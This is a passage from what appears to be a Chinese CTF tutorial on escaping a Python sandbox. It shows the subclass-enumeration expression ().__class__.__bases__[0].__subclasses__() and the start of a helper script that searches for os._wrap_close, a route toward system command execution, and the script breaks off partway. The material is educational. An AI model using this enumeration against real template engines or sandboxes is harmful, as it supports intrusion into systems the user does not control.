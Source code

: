 但是上面的方法仅限于在本地寻找，因为在做CTF题目的时候，我们无法在题目环境中运行这个`find.py`，这里用hhhm师傅的一个脚本直接去寻找子类

我们首先把所有的子类列举出来

```go
Python 3.7.8



>>> ().__class__.__bases__[0].__subclasses__()



...一大堆的子类
```

然后把子类列表放进下面脚本中的a中，然后寻找`os._wrap_close`这个类

```
find2.py
import json



 



a = """



<class 'type'>,...,<class 'subprocess.Popen'>



"""



 



num = 0



allList = []



 



result = ""



for i in a:



    if i == ">":

```